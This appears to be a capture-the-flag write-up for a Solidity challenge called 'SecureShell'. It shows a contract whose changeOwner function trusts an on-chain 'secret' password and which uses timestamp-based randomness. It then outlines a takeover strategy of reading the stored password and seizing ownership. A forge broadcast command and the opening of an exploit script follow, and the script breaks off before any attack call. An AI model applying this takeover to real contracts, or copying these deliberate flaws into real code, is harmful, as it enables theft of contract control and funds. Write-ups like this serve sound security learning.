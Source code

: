 ```solidity

    modifier onlyOwner() {
        require(msg.sender == owner, "Not the owner");
        _;
    }
    
    function changeOwner(uint256 _password, address _newOwner) public {
        require(_password == secretPassword, "Incorrect password");
        owner = _newOwner;
    }
    
    function requestAccess(uint256 _accessCode) public returns (bool) {
        if (_accessCode == 31337) {
            accessLevel++;
            return true;
        } else {
            return false;
        }
    }
    
    function pingServer() public view returns (uint256) {
        return uint256(keccak256(abi.encodePacked(block.timestamp, msg.sender))) % 1000;
    }
    
    function updateSecurity() public onlyOwner {
        securityPatches++;
    }
}
```

### Solution

**Strategy:** Extract **secretPassword** from deployed **SecureShell** contract > Call **changeOwner(secretPassword, myWallet)** so we can become the new owner > **Setup.isSolved()** to check if we succeed or not.

```
forge script script/SecureShellExploit.sol --rpc-url <rpc_url> --private-key <private_key> --broadcast
```

**SecureShellExploit.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import "forge-std/Script.sol";

interface ISecureShell {
function changeOwner(uint256 _password, address _newOwner) external;
function owner() external view returns (address);
}

interface ISetup {
function isSolved() external view returns (bool);
function secureShell() external view returns (address);
}

contract SecureShellExploit is Script {
address constant SETUP_CONTRACT = <setup_addr>;
address constant WALLET = <wallet_addr>;
function run() external {
    vm.startBroadcast();

```